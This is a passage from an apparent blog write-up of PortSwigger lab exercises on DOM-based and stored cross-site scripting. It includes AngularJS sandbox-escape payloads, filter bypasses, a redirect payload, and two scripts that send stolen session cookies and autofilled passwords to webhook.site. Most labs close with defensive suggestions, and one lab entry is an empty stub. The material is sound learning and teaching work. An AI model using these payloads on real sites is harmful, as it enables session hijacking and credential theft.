  _**6. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded**_  
  This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

  {: .box-note}
  **Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
     ~~~
     Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
     Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
     ~~~
  
  </details>
  -

</details>

## 3. Store-Based XSS
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs (Store-Based XSS)
Just for demostration, I completed some labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

<details markdown="1">
  <summary>Click me to expand the labs</summary>  

  _**1. Stored XSS into anchor href attribute with double quotes HTML-encoded**_  
  This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>
  
  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I use the search function in the inspection tab to look for the website I enter. And I find:
     ~~~
     Result: <a id="author" href="Website.com">Name</a>
     ~~~

  3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
     ~~~
     Website: javascript:alert('Zebra!')
     Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
     ~~~
   
  </details>
  -

  _**2. Stored DOM XSS**_  
  In this instance, the comment rendering is vulnerable to stored DOM‑based XSS because `escape()` only replaces the first `<`, `>` so I bypass it which leaves later tags unescaped, allowing arbitrary script execution when the page inserts comments into the DOM.

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. Firstly, I look into the script used in the web application under the Network tab on the Inspection page. And I find there is an escape function using [replace()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace)
     ```javascript
     function escapeHTML(html) {
         return html.replace('<', '&lt;').replace('>', '&gt;');
     }
     ```

     {: .box-note}
     **Note:** A string pattern will only be replaced once. To perform a global search and replace, use a regex with the g flag, or use replaceAll() instead.

  2. Now that I know only the first set of angle brackets is escaped and anything after that isn't, I craft my payload as:
     ~~~
     Payload: <><img src="x" onerror="prompt('I am escaped!')">
     Rendered:
     <p>
       &lt;&gt;
       <img src="x" onerror="prompt('I am escaped!')">
     </p>
     ~~~

  3. A prompt pops up with a message after I submit (store) the payload in the comment section, which indicates the filter mechanism (`replace()` function) was bypassed and the application is still vulnerable to XSS.

  _**Suggestion**_
  1. Make the escaping correct (use [global replacements or replaceAll/regex](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/replace#description))
  2. Deploy [Content Security Policy](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html) that disallows inline handlers, and protect cookies (HttpOnly/SameSite) to reduce impact.

  </details>
  -

  _**3. Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped**_  
  In this instance, I discover a Stored XSS vulnerability in the comment feature, specifically within the onclick event handler of anchor (`<a>`) elements. User input (from the “Website” field) is embedded directly into the JavaScript code inside an HTML attribute without applying proper context-specific encoding or sanitization. I was able to bypass the escaping and trigger the prompt by encoding my payload as an HTML entity.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

  2. I look into the inspection tab and pull out the syntax
     ```javascript
     <a id="author" href="Website"
     onclick="var tracker={track(){}};tracker.track('Website');">User_Name</a>
     ```
     
  3. I try to break out of the single quote in the `onclick` event, so when the user clicks an external link on the website, it will trigger the `onclick` event.
     But I notice that my single quote is escaped (`\'`), so the prompt isn't executed.
     ```javascript
     <a id="author" href="http://Website.com\'); prompt();//)"
     onclick="var tracker={track(){}};tracker.track('http://Website.com\'); prompt();//');">User_Name</a>
     ```
     {: .box-note}
     **Note:** The user input is used inside the `tracker.track()` call, enclosed in single quotes. So I close the first statement (`');`), insert the testing payload, then close the second statement (`prompt();`). Lastly, I use double forward slashes (`//`) to comment out the rest of the syntax.
     
  4. I use an additional backslash to neutralize the backslash that's meant to escape the single quote (`\'`), but it is also escaped (`\\\'`).

  5. To bypass this, I use [Cyberchef](https://cyberchef.io/#recipe=To_HTML_Entity(false,'Named%20entities')&input=Jyk7cHJvbXB0KCk7Ly8) to HTML-encode my payload. 
     ~~~
     Plain-text: ');prompt();//
     HTML-Entity: &apos;&rpar;&semi;prompt&lpar;&rpar;&semi;&sol;&sol;
     ~~~

  6. After submitting the website with the encoded payload appended, I successfully bypassed the filter. I can trigger the prompt by clicking the website’s external link, which proves the stored XSS vulnerability.
     ```javascript
     <a id="author" href="http://Website.com\'); prompt();//"
     onclick="var tracker={track(){}};tracker.track('http://Website.com\'); prompt();//');">tes</a>
     ```

  _**Suggestion**_
  1. Use JS and HTML attribute [context-aware output encoding](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) before rendering untrusted data inside event handlers or inline scripts. Avoid embedding untrusted user input directly into inline JavaScript.
  2. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in the “Website” field.
  3. Avoid writing event handlers directly inline in the HTML (e.g., `<button onclick="doSomething()">`), [separate the structure (HTML) from behavior (JavaScript)](https://developer.mozilla.org/en-US/docs/Learn_web_development/Core/Scripting/Events#using_addeventlistener).
  4. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restricts script execution to trusted sources only.

  </details>
  -

  _**4. Store XSS in comment section to steal cookies**_  
  The web application contains a Stored XSS vulnerability in its comment section, I retrieve other users' cookie session by storing the persist JavaScript that executes in the browsers of other users who view the infected post.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. To start with, I leave a prompt function in the comment section of a post on the web application for testing the XSS vulnerability. After I refresh the page, a window pop up to prove it is vulnerable to XSS.

  2. To simulate a more realistic scenario, I leave JavaScript that causes other users' browsers to automatically post their session cookies to my controlled domain ([Webhook](https://webhook.site/)).
     ```javascript
     <script>
     fetch('https[://]webhook[.]site', {
       method: 'POST',
       mode: 'no-cors',
       body: document.cookie
     });
     </script>
     ```

  3. After retrieving the cookie, I can use it to impersonate the cookie owner for further exploitation.

  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) to safely handle rich-text or HTML input.
  2. [Escape characters](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) appropriately for the output context (HTML, JavaScript, or attributes).
  3. Set session cookies with the [HttpOnly](https://owasp.org/www-community/HttpOnly) and Secure flags to prevent access via JavaScript and enforce HTTPS usage
  4. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restrict script sources.
  5. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in all user input fields.

  </details>
  -

  _**5. Exploiting cross-site scripting to capture passwords**_  
  The web application is vulnerable to a stored XSS in the post comment section. This vulnerability allows an attacker to inject JavaScript function into user comments. When other users view the compromised comment, it executes in their browsers and automatically exfiltrating saved credentials from browser password managers by using a `fetch()` call to send the data to external domain.
  
  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. To start with, I leave a prompt function in the comment section of a post on the web application for testing the XSS vulnerability. After I refresh the page, a window pop up to prove it is vulnerable to XSS.

  2. To simulate a more realistic scenario. In the comment field of the post, I create two HTML input fields that cause users' password managers to automatically fill the saved username and password and forward them to my controlled domain. ([Webhook](https://webhook.site/)).
     ```javascript
     <input name=username id=username>
     <input type=password name=password onchange="if(this.value.length)fetch('https[://]webhook[.]site',{
       method: 'POST',
       mode: 'no-cors',
       body:username.value+':'+this.value
     });">
     ```

  3. After retrieving the users' credentials, I can use it to impersonate the cookie owner for further exploitation.

  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) to safely handle rich-text or HTML input.
  2. [Escape characters](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) appropriately for the output context (HTML, JavaScript, or attributes).
  3. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restrict script sources.
  4. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in all user input fields.
  5. On client-side, disable [autofill in sensitive contexts](https://cybernews.com/security/password-managers-autofill-credentials-for-attackers/).

  </details>
  -

  _**6. Exploiting cross-site scripting to bypass CSRF protections**_  

  <details markdown="1">
  <summary>Click me to expand the process</summary>

  1. 



  _**Suggestion**_
  1. Use a proven HTML sanitizer (e.g. [DOMPurify](https://www.npmjs.com/package/dompurify)) to safely handle rich-text or HTML input.
  2. [Escape characters](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#output-encoding) appropriately for the output context (HTML, JavaScript, or attributes).
  3. Apply a [CSP header](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html#defense-against-xss) that blocks inline scripts and restrict script sources.
  4. [validate inputs](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html#implementing-input-validation) (e.g., quotes, backslashes, and parentheses) in all user input fields.
  5. On client-side, disable [autofill in sensitive contexts](https://cybernews.com/security/password-managers-autofill-credentials-for-attackers/).

  </details>
  -

</details>

### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
   ~~~
   src=x onerror="window.location.href='<$url>'"
   ~~~

</details>
